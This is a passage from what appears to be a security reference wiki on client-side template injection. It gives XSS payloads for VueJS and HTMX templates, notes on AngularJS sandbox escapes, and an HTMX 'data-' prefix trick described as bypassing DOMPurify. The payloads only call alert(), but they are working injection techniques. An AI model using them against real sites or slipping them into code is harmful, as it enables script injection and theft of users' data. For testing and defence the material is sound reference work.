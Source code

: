 {% embed url="https://portswigger.net/research/dom-based-angularjs-sandbox-escapes" %}
Escape different AngularJS version sandboxes
{% endembed %}

{% hint style="warning" %}
**Warning**:&#x20;

**Newer versions** of _Angular (v2+)_ instead of _AngularJS (v1)_ are not vulnerable in this way. \
Read more about this in [angular.md](../frameworks/angular.md "mention").
{% endhint %}

{% hint style="info" %}
**Note**: Injecting content with `.innerHTML` does not always work, because it is only triggered _when AngularJS loads_. If you inject content later from a fetch, for example, it would not trigger even if a parent contains `ng-app`.&#x20;

You may still be able to exploit this by slowing down the AngularJS script loading by **filling up the browser's connection pool**. [See this challenge writeup for details](https://blog.ryotak.net/post/dom-based-race-condition/).
{% endhint %}

#### [VueJS](https://vuejs.org/guide/essentials/template-syntax.html)

```html
<script src="https://cdn.jsdelivr.net/npm/vue@2.5.13/dist/vue.js"></script>

<div id="app">
  <p>{{this.constructor.constructor('alert(1)')()}}</p>
  <p>{{this.$el.ownerDocument.defaultView.alert(2)}}</p>
</div>
<script>
  new Vue({
    el: "#app",
  });
</script>
```

{% embed url="https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets" %}
Detailed research into VueJS payloads and filter bypasses
{% endembed %}

#### [HTMX](https://htmx.org/docs/)

<pre class="language-html"><code class="lang-html">&#x3C;script src="https://unpkg.com/htmx.org@1.9.12">&#x3C;/script>

<strong>&#x3C;!-- Old syntax, simple eval -->
</strong>&#x3C;img src="x" hx-on="error:alert(1)" />
<strong>&#x3C;!-- Normally impossible elements allow injecting JavaScript into eval'ed function! -->
</strong>&#x3C;meta hx-trigger="x[1)}),alert(2);//]" />
&#x3C;div hx-disable>
<strong>  &#x3C;!-- Inside hx-disable, new syntax still works -->
</strong>  &#x3C;img src="x" hx-on:error="alert(3)" />
<strong>  &#x3C;!-- Everything can be prefixed with data-, bypassing DOMPurify! -->
</strong>  &#x3C;img src="x" data-hx-on:error="alert(4)" />
&#x3C;/div>
</code></pre>


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed